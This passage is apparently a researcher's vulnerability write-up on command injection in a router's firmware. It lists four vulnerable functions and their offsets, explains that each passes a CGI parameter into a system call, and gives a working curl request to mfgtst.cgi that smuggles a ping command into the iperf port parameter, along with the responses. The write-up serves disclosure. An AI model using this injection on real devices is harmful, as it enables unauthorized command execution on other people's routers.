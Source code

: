 I identified (now patched) command injections in these functions:

| **Function**      | **Offset** (firmware version 1.2.2.5)    |
|:----------------|--------------:|
| IperfServerCmd  | 0x004141e8    |
| IperfClientCmd  | 0x00414e58    |
| SetWLChCmd      | 0x00415f2c    |
| SetWLSSIDCmd    | 0x00416974    |

Each of these functions follows the same insecure procedure:

1. Read query parameter with _get_cgi_
2. Build a command line using obtained query parameter
3. Call _system_

{:.foo}
![rv110_command_injection]({{site.url}}/assets/rv110_command_injection.png)

I still don't fully understand how these functions can be called from the web interface. They seem to be called by an undocumented CGI script named _mfgtst.cgi_. I found some [obscure reference](https://www.securityfocus.com/archive/1/541369) to it on the Internet, mentioning that simply _calling_ the CGI script would trigger a denial of service on some old Linksys device. The script itself looks like a diagnostic tool that will check wireless settings, USB settings, and performances.

#### Update - October 5th 2020

I finally identified how these CGIs calls can be triggered. The curl command below will inject the command `ping -c 3 10.10.10.100` into a system call by using double pipes.

{% highlight curl %}
curl -ki -X POST 'https://192.168.1.43/mfgtst.cgi?sys_iperfServer=1&sys_iperfWinSize=1
&sys_iperfPort=80%7C%7Cping%20-c%203%2010.10.10.100%7C%7C&sys_iperfMode=-u
;session_id=0d00538ca990439d194ff8b294927e08'
HTTP/1.1 200 Ok
Server: httpd
Date: Mon, 05 Oct 2020 10:31:09 GMT
Cache-Control: no-cache
Pragma: no-cache
Expires: 0
Content-Type: text/plain
Connection: close

HTTP/1.1 200 Ok
Server: httpd
Date: Mon, 05 Oct 2020 10:31:16 GMT
Content-Type: text/plain
Connection: close
{% endhighlight %}

Note that the call must be authenticated and that a specific NVRAM value (`mfg_radio`) must be set to "on" manually for the injection to work. 
